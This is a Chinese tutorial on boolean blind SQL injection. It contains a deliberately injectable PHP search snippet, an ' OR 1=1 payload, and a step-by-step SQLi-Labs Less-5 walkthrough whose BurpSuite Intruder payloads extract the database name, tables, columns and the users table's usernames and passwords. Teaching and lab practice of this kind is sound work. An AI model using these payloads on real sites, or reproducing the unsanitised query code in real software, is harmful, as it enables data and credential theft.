

# 一、布尔盲注概述
1. 布尔盲注是一种利用布尔逻辑（即真和假）进行漏洞攻击的技术，通常用于攻击基于关系数据库的应用程序。在布尔盲注攻击中，攻击者将针对应用程序的输入发送到后端数据库，并观察应用程序的响应。通过分析应用程序的响应，攻击者可以确定某些条件是否为真或为假，从而推断出数据库中的数据。攻击者可以通过反复使用这种技术来获取更多的数据，最终可能导致对应用程序的完全控制。
2. 与普通的SQL注入攻击不同，布尔盲注攻击不直接从应用程序的响应中获取数据库中的数据，而是根据应用程序响应中的某些特定信息来推断出该数据。这种攻击技术通常比较难以执行，因为攻击者需要通过尝试各种条件和参数来获取信息，同时还需要足够的耐心和技术能力。
# 二、布尔盲注代码示例

1. 假设有一个名为"search.php"的搜索页面，可以根据输入的关键字从数据库中查找相关的信息并显示在页面上。以下是示例代码：
```php
<?php     
  $keyword = $_GET["keyword"];
  $sql = "SELECT * FROM products WHERE name LIKE '%$keyword%'";
  $result = mysqli_query($conn, $sql);
  while($row = mysqli_fetch_array($result)) {
    echo $row["name"]. "<br>";     
  } 
?>
```

2. 在这个示例中，$keyword变量是从URL参数中获取的，并用于构建SQL查询语句。如果攻击者在$keyword参数中输入恶意代码，就可能导致布尔盲注漏洞。例如，如果攻击者将以下代码作为参数值发送到搜索页面，就可能利用布尔盲注漏洞进行攻击：
```
' OR 1=1 -- -
```

3. 这段代码的作用是将SQL查询语句变为：
```sql
SELECT * FROM products WHERE name LIKE '%' OR 1=1 -- '%'
```

4. 在这个查询中，OR 1=1条件永远为真，因此将返回所有产品的数据，而不仅仅是与搜索关键字匹配的产品。攻击者可以反复使用类似的代码来获取更多的数据，并最终可能导致对应用程序的完全控制。
5. 要解决这个问题，可以使用预处理语句或其他安全的数据库查询方法来构建SQL查询语句，以防止这种类型的攻击。
# 三、布尔盲注案例——SQLi-Labs less5

1. 先测试注入点类型，发现页面回显没有报错信息，明显是盲注

2.  测试盲注类型，单引号测试发现页面回显不一样，符合布尔注入特征 
```sql
?id=1' and 1=1 --+
?id=1' and 1=2 --+
```




3.  获取数据库字段数 
```sql
?id=1' order by 4 --+
?id=1' order by 3 --+
```


4.  接下来需要配合抓包工具BurpSuite进行注入，抓包看一下正常状态和错误状态下的返回数据包有什么明显不同


5.  如上图，可以看到正常状态下返回数据包长度为704，错误状态下返回长度为720，接下来获取数据库名的长度，修改POC如下，然后发送到Intruder模块，将length(database())的值设置为变量，类型为简单列表，值为0-9 
```sql
?id=1'+and+length(database())=8+--+
```


6.  点击start attack，完成后查看结果，发现数值8的长度为916，其他数值长度都是932，点击查看该数值返回数据包，发现长度为704，与上面分析的一致，那么数据库的长度就是8了

7.  获取数据库名，修改POC如下，设置变量2为0-9的简单列表，变量e为取值范围为a-z、0-9、_的简单列表，然后点击start attack 
```sql
?id=1' and if(substring(database(),2,1)='e',1,0) --+
#substring(database(),2,1) 从database()的值也就是数据库名中第二个字符开始截取且只截取一个字符
#if(substring(database(),2,1)='e',1,0) 如果数据库名的第二个字符的值为e，则返回1，否则返回0
```


8.  攻击完成后，点击Length进行排序，如下，Payload1从1-8的字符的Length为916，其返回数据包的长度为704，也就是说这些都是正确的值，则Payload1从1-8的字符的值合到一起的字符串就是数据库名，即数据库名为security

9.  接下来获取数据库security中的表的表名，POC如下，抓包重放到Intruder模块 
```sql
1'and if(substring((select TABLE_NAME from information_schema.TABLES where
TABLE_SCHEMA=database() limit 1,1),1,1)='e',1,0)--+
#设置变量如下 
#limit 1,1  第一个1设置为变量，表示从第一个表的第一行开始遍历，取值范围为0-9
#substring((...),1,1)  第一个1设置为变量，表示从第一个字符开始截取字符串，每次截取一个字符，取值范围为0-9
#if(substring()='e',1,0) substring()的值设置为变量，表示每次遍历每一个表名的一个字符取值是否正确，正确返回1，否则返回0
```


10.  设置好变量和Payload后，点击Start attack，攻击完成后先进行排序，如下

11.  根据Payload1和Length即可判断security库中的每一个正确的表的表名，security中的表名如下 
```sql
emails
referer
uagents
users
```
 

12.  获取users表的字段，修改POC如下 
```sql
1'and if(substring((select COLUMN_NAME from information_schema.COLUMNS where
TABLE_NAME='users' limit 1,1),1,1)='i',1,0)--+
```


13.  点击Start attack，攻击完成后排序如下图，成功获取到users表的字段 
```sql
id
username
password
```


14.  获取users表中username和password字段的内容，修改POC如下 
```sql
1'and if(substring((select group_concat(username,0x3a,password) from users limit 1),1,1)='d',1,0)--+
```


15.  点击Start attack，攻击完成后排序，然后导出数据，即可获取到表中的数据

